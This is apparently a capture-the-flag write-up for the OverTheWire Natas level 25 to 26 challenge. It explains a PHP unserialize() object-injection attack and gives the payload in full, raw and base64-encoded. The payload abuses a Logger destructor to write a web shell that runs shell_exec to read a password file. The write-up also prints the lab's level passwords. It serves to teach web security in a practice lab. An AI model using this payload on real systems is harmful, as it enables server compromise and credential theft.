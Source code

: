 # Level 25 → Level 26

## Details
Username: `natas26`<br />
Password: `8A506rfIAXbKKk68yJeuTuRq4UfcK70k`<br />
URL:      http://natas26.natas.labs.overthewire.org

## Solution
It was an interesting challenge that took me some time. Let's see what happens there.

![](0.png)

![](1.png)

The strangest part of the code is the `Logger` class because **it has no use** in the rest of the code.

To understand the rest of the code you need to see an example first:

![](2.png)

That is, the input is two points, and the output is a black image with a line represented by those two points. If we stay in the same session and insert more points, we will find that the output will be all the lines drawn so far. The information itself for each session is saved in a cookie in key named `drawing` (which grows with each new request).

Let's see how the information from `drawing` is interpreted on the server:

![](3.png)

![](4.png)

![](5.png)

This means that the information is interpreted using a function called `unserialize()`. Let's read about it [here](https://www.php.net/manual/en/language.oop5.serialization.php) and [here](https://en.wikipedia.org/wiki/PHP_serialization_format).

In the first source there is a very important sentence:

![](6.png)

It means only one thing. If we put in the `drawing` a coding of the `Logger` object **we can use its destructor!**

The second reading source (attached above) taught me how to code an object, and that's how I came up with the following coding:

```
O:6:"Logger":3:{s:7:"logFile";s:14:"img/hacked.php";s:7:"initMsg";s:10:"not in use";s:7:"exitMsg";s:59:"<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";}
```
* Files can only be created in the `img` folder.

In base64 it comes out:

```
Tzo2OiJMb2dnZXIiOjM6e3M6NzoibG9nRmlsZSI7czoxNDoiaW1nL2hhY2tlZC5waHAiO3M6NzoiaW5pdE1zZyI7czoxMDoibm90IGluIHVzZSI7czo3OiJleGl0TXNnIjtzOjU5OiI8P3BocCBlY2hvIHNoZWxsX2V4ZWMoJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ==
```

We will change the value of drawing to be the above base64 and make a GET HTTP request (without values in the coordinates)

![](7.png)

![](8.png)

I'm not sure why the password was written like that twice.. Maybe the first time is in the creation of the file and the second now in the current request. I'm really not sure... but hey! That's the password anyway!

## Password for the next level:
```
PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3
```
